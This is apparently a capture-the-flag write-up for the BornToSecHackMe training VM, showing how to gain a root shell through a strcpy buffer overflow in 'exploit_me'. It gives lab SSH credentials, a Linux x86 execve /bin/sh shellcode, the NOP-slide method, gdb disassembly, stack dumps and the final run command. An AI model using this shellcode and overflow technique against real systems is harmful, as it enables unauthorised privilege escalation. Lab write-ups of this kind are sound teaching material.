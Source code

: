 # BONUS2 :

Starting from the `zaz` user, another way to get access to the `root` user with the file `exploit_me` is to use a `shellcode`.

ssh user: `zaz`
ssh password: `646da671ca01bb5d84dbb5fb2238dc8e`

23 bytes shellcode from [here](https://www.hackthesec.co.in/2016/01/linuxx86-execve-binsh-shellcode-24-byte.html):  `\x6a\x0b\x58\x31\xf6\x56\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\xcd\x80`

We need to add some `NOP slide` before our shellcode to be sure that even if our address is a bit moving we will still be able to get to our shellcode.

> EIP => 0xbffff75c
> Buffer beginning =>0xbffff6d0
> EIP - Buffer beginning = 140

Let's build our input with a python script `shellcode_exploit.py` and get the `start_of_nop_slide` value with gdb:

```bash
zaz@BornToSecHackMe:~$ gdb -q ./exploit_me
(gdb) disas main
Dump of assembler code for function main:
   0x080483f4 <+0>:     push   %ebp
   0x080483f5 <+1>:     mov    %esp,%ebp
   0x080483f7 <+3>:     and    $0xfffffff0,%esp
   0x080483fa <+6>:     sub    $0x90,%esp
   0x08048400 <+12>:    cmpl   $0x1,0x8(%ebp)
   0x08048404 <+16>:    jg     0x804840d <main+25>
   0x08048406 <+18>:    mov    $0x1,%eax
   0x0804840b <+23>:    jmp    0x8048436 <main+66>
   0x0804840d <+25>:    mov    0xc(%ebp),%eax
   0x08048410 <+28>:    add    $0x4,%eax
   0x08048413 <+31>:    mov    (%eax),%eax
   0x08048415 <+33>:    mov    %eax,0x4(%esp)
   0x08048419 <+37>:    lea    0x10(%esp),%eax
   0x0804841d <+41>:    mov    %eax,(%esp)
   0x08048420 <+44>:    call   0x8048300 <strcpy@plt>
   0x08048425 <+49>:    lea    0x10(%esp),%eax
   0x08048429 <+53>:    mov    %eax,(%esp)
   0x0804842c <+56>:    call   0x8048310 <puts@plt>
   0x08048431 <+61>:    mov    $0x0,%eax
   0x08048436 <+66>:    leave
   0x08048437 <+67>:    ret
End of assembler dump.
(gdb) b *main+49
Breakpoint 1 at 0x8048425
(gdb) r `python exploit.py`
Starting program: /home/zaz/exploit_me `python exploit.py`

Breakpoint 1, 0x08048425 in main ()
(gdb) x/30x
Argument required (starting display address).
(gdb) x/30x $esp
0xbffff630:     0xbffff640      0xbffff899      0x00000001      0xb7ec3c49
0xbffff640:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff650:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff660:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff670:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff680:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff690:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff6a0:     0x50c03190      0x732f2f68
```

> start_of_nop_slide => 0xbffff640

Now we can edit our script by putting the `EIP` in the middle of the `NOP_SLIDE`  and simply use our script to get access to the root shell:

```bash
./exploit_me `python exploit.py`
```